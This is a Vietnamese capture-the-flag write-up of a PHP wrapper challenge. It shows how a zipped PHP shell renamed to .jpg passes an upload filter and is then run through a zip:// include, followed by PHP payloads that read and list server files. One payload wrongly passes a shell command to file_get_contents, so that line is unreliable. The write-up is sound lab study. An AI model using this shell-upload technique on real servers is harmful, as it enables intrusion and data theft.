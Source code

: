 ![image](../image/20.1.png)

bài này giới thiệu về wrappers mà cụ thể ở đây là PHP Wrappers

chỉ được upload jpg
![image](../image/20.2.png)

và khi upload thành công sẽ được lưu ở
![image](../image/20.3.png)

mất khá nhiều thời gian để mình tìm cách bypass upload, mục đích của mình là upload shell để có thể đọc file

sau khi thử tất cả các loại extension thì mình thấy có thể upload file zip lên. Các bước exploit như sau

1. tạo shell php sau đó zip lại 
2. đổi extension từ zip sang jpg để bypass filter
3.upload zip lên cho server giải nén
4.vào đường dẫn với `?page=zip://<path_to_zip>#<shell_name>`

thành công upload zip shell
![image](../image/20.4.png)
truy cập vào nào
![image](../image/20.5.png)
trôn vl, mình phải đổi lại tên shell, mình sẽ đặt ra `x.php`

![image](../image/20.6.png)
system đã bị filter, nhưng trong php còn một số cách để đọc file mà, điển hình là `file_get_contents`

payload: `<?php
    $exp=file_get_contents('cat index.php');
    echo $exp;
?>`

![image](../image/20.7.png)


flag không nằm ở index.php, căng nhỉ =)))


![image](../image/20.8.png)

dùng scandir() để list xem thư mục làm việc hiện tại có file gì nhé ae

payload: `<?php
   $files=scandir('.');
   $files = array_diff($files,array('.','..'));
   foreach($files as $file){
    echo $file ."\n";
   }
?>`
![image](../image/20.9.png)
đây rồi:v, cat flag ae tự làm nốt nhé

bài này khó vkl đối với mình =)))

`soong1002`








